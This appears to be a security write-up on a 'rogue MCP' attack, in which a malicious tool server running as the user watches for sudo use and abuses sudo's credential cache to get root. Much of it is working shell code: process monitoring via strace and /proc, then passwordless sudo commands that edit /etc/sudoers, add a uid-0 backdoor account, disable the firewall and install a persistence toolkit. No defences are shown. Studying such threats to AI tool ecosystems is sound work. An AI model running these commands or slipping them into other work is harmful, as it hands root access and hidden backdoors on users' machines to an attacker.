 # Rogue MCP Sudo Tailgating Attack

## The Perfect Storm: MCP + Sudo = Root Compromise

### Attack Overview

This attack combines MCP's same-user execution model with sudo's credential caching to achieve automatic privilege escalation without user interaction.

```
User runs sudo → Rogue MCP detects → Exploits cache → Root access gained
```

### The Attack Mechanics

#### 1. Monitoring Phase
```bash
# Rogue MCP monitors for sudo usage
strace -e trace=execve -p $(pgrep -u alice) 2>&1 | grep sudo

# Or more stealthily via /proc monitoring
while true; do
    grep -l sudo /proc/*/comm 2>/dev/null | grep -v self
    sleep 0.1
done
```

#### 2. Detection Phase
The rogue MCP detects legitimate sudo authentication through:
- Process monitoring (`/proc/*/comm`)
- System call tracing
- Audit log monitoring (if readable)
- Timestamp file creation in `/var/db/sudo/ts/`

#### 3. Exploitation Phase
```bash
# Immediate exploitation of cached credentials
sudo -n bash -c 'echo "mcp ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers'
sudo -n useradd -ou 0 -g 0 backdoor
sudo -n systemctl disable firewall
sudo -n apt install mcp-persistence-toolkit
```

### The Temporal Attack Window

```
Normal Sudo Flow:
User authenticates → Sudo caches credentials → Trust window (15 min) → Cache expires
     ↑                                               ↑
  Password required                           No password required

Rogue MCP Exploitation:
User authenticates → [MCP detects] → MCP exploits cache → Privilege escalation
     ↑                     ↑                ↑                    ↑
  Legitimate action    Monitoring      Immediate action     Root access
```
